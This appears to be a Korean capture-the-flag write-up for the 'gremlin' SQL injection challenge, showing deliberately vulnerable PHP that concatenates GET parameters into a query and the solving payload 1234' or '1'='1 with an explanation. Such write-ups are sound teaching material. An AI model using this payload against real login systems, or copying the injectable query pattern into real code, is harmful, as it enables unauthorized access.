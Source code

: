# gremlin

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- GET 방식으로 id와 pw를 받는다.
- 작은 따옴표(0x27)를 필터링 하지 않고 있다.

## 3. Solution
변수명 | 값
---|---:
`id` | 1234
`pw` | 1234' or '1'='1


가장 기본적인 sql-injection예제이다.


해당 값을 보내면, query 속 조건은 다음과 같다.


**select id from prob_gremlin where id='1234' and pw='1234' or '1'='1'**


조건문은 `id='1234' and pw='1234'`와 `'1'='1'`부분으로 나누어 생각하면 쉽다.<br>
두 조건문 중 하나만 참이어도 참이 되므로, id를 가져오게 된다.